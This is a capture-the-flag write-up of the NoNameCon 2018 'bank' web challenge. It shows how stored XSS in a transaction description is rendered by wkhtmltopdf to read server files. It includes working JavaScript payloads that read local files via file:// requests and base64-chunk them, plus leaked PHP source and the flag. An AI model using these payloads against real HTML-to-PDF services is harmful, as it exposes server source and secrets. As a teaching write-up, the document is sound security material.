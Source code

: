 # CTF - 2018 - NoNameCon CTF Quals 2018 / Web / bank

## web - 200 pts - local file access with js and html to pdf

- note: sry, The challenge website is no more available, so there will be no screenshots :'(


- We register and connect to the bank website.
- In the page bank.php we can transfert found to someone else or to ourselves.
- In the html sourcecode we see a comment to a page `history.php?type=html`
- This page give us the history and we can find an xss in it.
- After trying some extension, we finaly find something interresting, a pdf extension is available and the pdf result contain the following informations :
```
pdfinfo history.pdf
Title:          
Creator:        wkhtmltopdf 0.12.2.4
Producer:       Qt 5.5.1
...
```
- So they use wkhtmltopdf
- This lib convert html to pdf, but also read the javascript.
- A research on web lead me to this report : https://cure53.de/pentest-report_accessmyinfo.pdf which is interesting because we can do "Local File Access via HTML to PDF conversion"
- So we can do a transfert with the following payload in description to get our data :
```
<h1 id='test2'>a</h1><script>x = new XMLHttpRequest();
x.open('GET','file:///var/www/html/history.php',false);
x.send();
document.getElementById('test2').innerHTML= x.responseText;
</script>
```
- This work, the pdf lib call the javascript, the file is loaded and we get the source code, but the source is incomplete due to php specials chars and because the pdf truncate it.

- So i cut the code into chunk of 60 char in base64 to be able to read all the content :
```
<div id='p'>a</div><script>x = new XMLHttpRequest();
x.open('GET','file:///var/www/html/history.php',false);
x.send();
var a = '';
for(var i=0; i< x.responseText.length; i=i+60 ) {
a = a +  btoa(x.responseText.substr(i, 60))+ '<br>';
}
document.getElementById('p').innerHTML= a;
</script>
```

- Result give me :
```
PD9waHAKaW5jbHVkZSAnY29uZi5waHAnOwpzZXNzaW9uX3N0YXJ0KCk7CmlmKCAhJF9TRVNTSU9OWydp
ZCddICkgewogIGhlYWRlcignTG9jYXRpb246IGxvZ2luLnBocCcpOwogIGRpZTsKfQokdHlwZSA9ICRf
R0VUWyd0eXBlJ10gPz8gJ2h0bWwnOwoKJHN0bXQgPSAkcGRvLT5wcmVwYXJlKCdTRUxFQ1QgaWQsIChT
RUxFQ1QgdXNlcm5hbWUgRlJPTSB1c2VycyBXSEVSRSBpZD1zZW5kZXIpIGFzIHNlbmRlciwoU0VMRUNU
IHVzZXJuYW1lIEZST00gdXNlcnMgV0hFUkUgaWQ9cmVjaXBpZW50KSBhcyByZWNpcGllbnQsIGFtb3Vu
dCwgZGVzY3JpcHRpb24gRlJPTSB0cmFuc2FjdGlvbnMgV0hFUkUgKHNlbmRlciA9IDpzZW5kZXIgT1Ig
cmVjaXBpZW50ID0gOnJlY2lwaWVudCkgT1JERVIgQlkgaWQgREVTQycpOwokc3RtdC0+YmluZFBhcmFt
KCc6c2VuZGVyJywgJF9TRVNTSU9OWydpZCddLCBQRE86OlBBUkFNX0lOVCk7CiRzdG10LT5iaW5kUGFy
YW0oJzpyZWNpcGllbnQnLCAkX1NFU1NJT05bJ2lkJ10sIFBETzo6UEFSQU1fSU5UKTsKJHN0bXQtPmV4
ZWN1dGUoKTsKCiR0cmFuc2FjdGlvbnMgPSBbXTsKd2hpbGUoICRyb3cgPSAkc3RtdC0+ZmV0Y2goKSAp
CiAgJHRyYW5zYWN0aW9ucyBbXT0gJHJvdzsKCiRoaXN0b3J5X2h0bWwgPSAnJzsKJGhpc3RvcnlfaHRt
bCAuPSA8PDxFT1QKICAgIDx0YWJsZSBzdHlsZT0id2lkdGg6MTAwJTt0ZXh0LWFsaWduOmxlZnQ7Ym9y
ZGVyOiAzcHggc29saWQgYmxhY2s7Ij4KICAgICAgPHRyPjx0aCB3aWR0aD0yMD5JRDwvdGg+PHRoIHdp
ZHRoPTEwMD5TZW5kZXI8L3RoPjx0aCB3aWR0aD0xMDA+UmVjaXBpZW50PC90aD48dGggd2lkdGg9NTA+
QW1vdW50PC90aD48dGggd2lkdGg9NTAwPkRlc2NyaXB0aW9uPC90aD48L3RyPgpFT1Q7CmZvcmVhY2go
JHRyYW5zYWN0aW9ucyBhcyAkdHJhbnNhY3Rpb24pIHsKICAkaGlzdG9yeV9odG1sIC49IHNwcmludGYo
Jzx0cj48dGQ+JXU8L3RkPjx0ZD4lczwvdGQ+PHRkPiVzPC90ZD48dGQ+JXU8L3RkPjx0ZD4lczwvdGQ+
PC90cj4nLiBQSFBfRU9MLCAKICAgICR0cmFuc2FjdGlvblsnaWQnXSwKICAgIGh0bWxlbnRpdGllcygk
dHJhbnNhY3Rpb25bJ3NlbmRlciddKSwKICAgIGh0bWxlbnRpdGllcygkdHJhbnNhY3Rpb25bJ3JlY2lw
aWVudCddKSwKICAgICR0cmFuc2FjdGlvblsnYW1vdW50J10sCiAgICAkdHlwZSA9PT0gJ2h0bWwnID8g
aHRtbGVudGl0aWVzKCR0cmFuc2FjdGlvblsnZGVzY3JpcHRpb24nXSkgOiAkdHJhbnNhY3Rpb25bJ2Rl
c2NyaXB0aW9uJ10KICApOwp9CiRoaXN0b3J5X2h0bWwgLj0gPDw8RU9UCiAgICA8L3RhYmxlPgpFT1Q7
CgppZiggJHR5cGUgPT09ICdwZGYnICkgewogICR0bXBmaWxlICA9IHRlbXBuYW0oc3lzX2dldF90ZW1w
X2RpcigpLCBzcHJpbnRmKCdiYW5rLSV1LScsICRfU0VTU0lPTlsnaWQnXSkpOwogICRodG1sZmlsZSA9
ICR0bXBmaWxlIC4gJy5odG1sJzsKICAkcGRmZmlsZSAgPSAkdG1wZmlsZSAuICcucGRmJzsKICBmaWxl
X3B1dF9jb250ZW50cygkaHRtbGZpbGUsICRoaXN0b3J5X2h0bWwpOwogIGV4ZWMoInh2ZmItcnVuIHdr
aHRtbHRvcGRmICRodG1sZmlsZSAkcGRmZmlsZSIpOwogIGhlYWRlcignQ29udGVudC1UeXBlOiBhcHBs
aWNhdGlvbi9wZGYnKTsKICByZWFkZmlsZSgkcGRmZmlsZSk7CiAgdW5saW5rKCR0bXBmaWxlKTsgdW5s
aW5rKCRodG1sZmlsZSk7IHVubGluaygkcGRmZmlsZSk7CiAgZGllOwp9Cj8+CjwhRE9DVFlQRSBodG1s
Pgo8aHRtbD4KPGhlYWQ+CiAgPD9waHAgaW5jbHVkZSAnLi9wYXJ0aWFscy9oZWFkLnBocCcgPz4KPC9o
ZWFkPgo8Ym9keT4KICA8ZGl2IGNsYXNzPSJiYW5uZXIiPgogICAgPD9waHAgaW5jbHVkZSAnLi9wYXJ0
aWFscy91c2VyX2hlYWRlci5waHAnID8+CiAgPC9kaXY+CiAgPGRpdiBjbGFzcz0ianVtYm90cm9uIG1h
c3RoZWFkIj4KICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciB3aC00NSI+CiAgICA8cD5UcmFuc2FjdGlv
biBIaXN0b3J5PC9wPgogICAgPD89JGhpc3RvcnlfaHRtbDs/PgogICAgPC9kaXY+CiAgPC9kaXY+CiAg
PD9waHAgaW5jbHVkZSAnLi9wYXJ0aWFscy9mb290ZXIucGhwJyA/PgogIDxzY3JpcHQgdHlwZT0idGV4
dC9qYXZhc2NyaXB0Ij4KICAgIC8qIGluaXQgSmFyYWxsYXggKi8KICAgICQoJy5qYXJhbGxheCcpLmph
cmFsbGF4KHsKICAgICAgc3BlZWQ6IDAuNSwKICAgICAgaW1nV2lkdGg6IDEzNjYsCiAgICAgIGltZ0hl
aWdodDogNzY4CiAgICB9KQogIDwvc2NyaXB0Pgo8L2JvZHk+CjwvaHRtbD4K
```

- With that, i get the code in the pdf and i retreive it with copy/paste on  [cyberchef](https://gchq.github.io/CyberChef/) (this tool is so usefull)

- we can now find the complete code and the configuration file include
```
<?php
include 'conf.php';
session_start();
...
```
- So i continue with the conf.php and find something interesting :
```
...
$flag = file_get_contents('/flag');
$DEFAULT_BALANCE = 100;
...
```

- ok just have to read the /flag file now
```
nnc{1b97d726c1332b6d6632ff5d8468e8be}
```

By team Beers4Flags

```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```

